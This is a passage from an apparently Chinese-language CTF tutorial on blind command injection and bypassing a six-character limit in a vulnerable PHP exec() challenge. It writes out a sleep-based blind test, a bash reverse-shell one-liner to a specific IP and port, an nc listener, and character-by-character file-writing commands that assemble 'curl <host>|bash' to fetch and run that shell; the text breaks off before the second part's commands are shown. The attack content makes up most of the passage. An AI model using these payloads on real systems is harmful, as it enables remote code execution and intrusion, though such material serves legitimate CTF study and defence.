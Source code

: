 无回显可以通过增加参数sleep进行判断

```undefined
ls|sleep 10 
```

如返回时间有明显差异，则代表命令执行成功。
对于无参数RCE，可以使用反弹shell

### 字符数量限制bypass2

curl反弹shell：利用curl的反弹shell技巧，构造反弹shell语句，利用curl 访问目标地址|hash，执行目标地址上的反弹shell语句。

例题：

```php
<?php
    error_reporting(E_ALL);
    $sandbox = dirname(__FILE__).'/sandbox_' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    mkdir($sandbox,0755,true);
    chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 6) {
        exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

利用vps，搭建80服务，存入反弹shell的语句，效果如下：

```
访问：http://81.71.84.61/
显示：bash -i >& /dev/tcp/219.152.63.100/8000 0>&1
```

利用linux特性写入一句话木马，由于限制字符数量限制，此处分开两部分执行。

用于接收shell的机器要开启端口监听

```
nc -lv 8000
```

**第一部分：**

```bash
>ls\\
ls>_
>\ \\
>-t\\
>\>y
ls>>_
```

此部分主要是分两段，写入文件`_`中。首先写入`ls`字符，然后追加写入`-t >y`，这样执行`sh _`，即执行`ls -t >y`。此语句等于0x09的`ls -t>0`

**第二部分：**

构造curl 81.71.84.61|bash（curl访问这个地址即返回bash -i >& /dev/tcp/219.152.63.100/8000 0>&1这句话），从而执行反弹shell
